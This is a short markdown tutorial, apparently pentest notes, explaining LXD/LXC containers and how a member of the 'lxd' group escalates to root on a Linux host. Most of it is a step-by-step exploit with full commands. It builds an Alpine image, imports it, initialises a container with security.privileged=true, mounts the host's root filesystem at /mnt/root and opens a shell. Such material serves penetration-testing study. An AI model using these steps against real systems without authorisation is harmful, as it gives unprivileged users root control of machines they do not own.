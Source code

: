 # Using LXD To Escalate Privileges 

## What is LXD and LXC?
* Linux Container (LXC) are often considered as a lightweight virtualization technology that is something in the middle between a chroot and a completely developed virtual machine, which creates an environment as close as possible to a Linux installation but without the need for a separate kernel.

* Linux daemon (LXD) is the lightervisor, or lightweight container hypervisor. LXD is building on top of a container technology called LXC which was used by Docker before. It uses the stable LXC API to do all the container management behind the scene, adding the REST API on top and providing a much simpler, more consistent user experience.

## What is an LXD Privesc?
A member of the local “lxd” group can instantly escalate the privileges to root on the host operating system. This is irrespective of whether that user has been granted sudo rights and does not require them to enter their password. The vulnerability exists even with the LXD snap package.

LXD is a root process that carries out actions for anyone with write access to the LXD UNIX socket. It often does not attempt to match the privileges of the calling user. There are multiple methods to exploit this.

## LXD API Host Mounting Privesc
One of them is to use the LXD API to mount the host’s root filesystem into a container which is going to use in this post. This gives a low-privilege user root access to the host filesystem.

## Instructional
In order to take escalate the root privilege of the host machine you have to create an image for lxd thus you need to perform the following steps:

1. Attacker Machine:

	1. Download build-alpine in your local machine through the git repository.
	2. Execute the script “build -alpine” that will build the latest Alpine image as a compressed file, this step must be executed by the root user.
	3. Transfer the tar file to the host machine 


2. Host Machine: 

	1. Download the alpine image
	2. Import image for lxd
	3. Initialize the image inside a new container.
	4. Mount the container inside the /root directory

1. git clone  https://github.com/saghul/lxd-alpine-builder.git
2. cd lxd-alpine-builder
3. ./build-alpine

On running the above command, a tar.gz file is created in the working directory that we have transferred to the host machine.

4. After the image has been transferred it can be added as an image to LXD as follows: lxc image import ./apline-v3.10-x86_64-20191008_1227.tar.gz --alias myimage
5. Then, you can check the images that have been imported into LXD using: lxc image list
6. Then start up the container:

	1. lxc init myimage ignite -c security.privileged=true
	2. lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
	3. lxc start ignite
	4. lxc exec ignite /bin/sh
	5. id

Once inside the container, navigate to /mnt/root to see all resources from the host machine.
